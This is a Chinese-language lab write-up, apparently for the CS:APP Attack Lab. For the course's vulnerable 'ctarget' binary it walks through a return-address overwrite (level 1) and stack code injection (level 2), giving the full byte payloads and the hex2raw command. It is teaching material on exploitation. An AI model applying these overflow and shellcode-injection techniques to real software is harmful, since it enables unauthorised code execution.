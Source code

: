 ## 第一部分
### 第一关
根据文档攻击目标是getbbuf函数。查看其汇编代码
```
  0x000000000040173b <+0>:	sub    $0x28,%rsp
   0x000000000040173f <+4>:	mov    %rsp,%rdi
   0x0000000000401742 <+7>:	call   0x40197a <Gets>
   0x0000000000401747 <+12>:	mov    $0x1,%eax
   0x000000000040174c <+17>:	add    $0x28,%rsp
   0x0000000000401750 <+21>:	ret    
  ```
看出缓冲区大小为0x28,即40.所以应该先填充40个任意字符。
再找出touch1的地址为0x0000000000401751,所以这个地址要覆盖掉返回地址。
综上注入字节为`33 ...(一共四十个33)00 00 00 00 00 40 17 51`
转化为小端形式`33 ... 33(一共四十个33)51 17 40 00 00 00 00 00 `.
将上面的代码存在input.txt中，命令行输入`./hex2raw < input.txt | ./ctarget`，攻击成功。
调用get前后栈的情况如下图,其中黑线框中为栈中值，左边为地址(rsp和rip表示此时寄存器指向该地址)，右边为解释

![](https://raw.githubusercontent.com/HJLomega/bomblab_picture/master/attack_lab1.png)


### 第二关
首先得到touch2的地址为`0x000000000040177d`
我的cookie为0x7a742553,所以要让程序执行以下指令
```
movq $0x7a742553,%rdi
ret
 ```
下面生成机器代码，创建文件1_2.s，输入`movq $0x7a742553,%rdi `，然后输入以下命令
```
  gcc -c 1_2.s
  objdump -d 1_2.o > 1_2.d
 ```
在1_2.d中可得
```
48 c7 c7 53 25 74 7a    mov    $0x7a742553,%rdi
 ```
 所以`movq $0x7a742553,%rdi `的机器代码为`48 c7 c7 53 25 74 7a`。同理可得`ret `的机器代码为`c3`
思路是在字符串中注入上述代码，然后把返回地址该为getbuf的返回地址改为注入汇编代码的地址，并且把getbuf的返回地址的上面一个字改为touch2的地址，以此让注入的ret指令返回touch2。
为了做到以上步骤，必须先获得调用getbuf时栈底的地址。gbd断点获得rsp的值为`0x5563f200`
denug观察发现，代码的执行在一个字中是从右往左的，一个字节一个字节依此进行的，
所以注入代码为
```
c3 7a 74 25 53 c7 c7 48  
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
00 00 00 00 55 63 f1 d8
00 00 00 00 00 40 17 7d
```
改为小端表示法
```
48 c7 c7 53 25 74 7a c3
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
d8 f1 63 55 00 00 00 00 
7d 17 40 00 00 00 00 00 
```
将上面的代码存在input.txt中，命令行输入`./hex2raw < input.txt | ./ctarget`,攻击成功
栈的情况如下图

